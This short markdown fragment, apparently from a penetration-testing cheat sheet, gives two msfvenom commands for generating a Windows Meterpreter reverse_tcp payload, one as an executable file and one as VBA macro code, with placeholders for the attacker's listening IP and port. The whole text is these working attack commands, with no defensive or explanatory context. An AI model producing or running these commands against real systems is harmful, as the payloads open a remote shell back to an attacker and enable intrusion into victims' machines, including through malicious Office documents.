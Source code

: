 ## Generating an exe

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o /path/to/payload.exe
```

## Generating a VBA Payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f vba
```


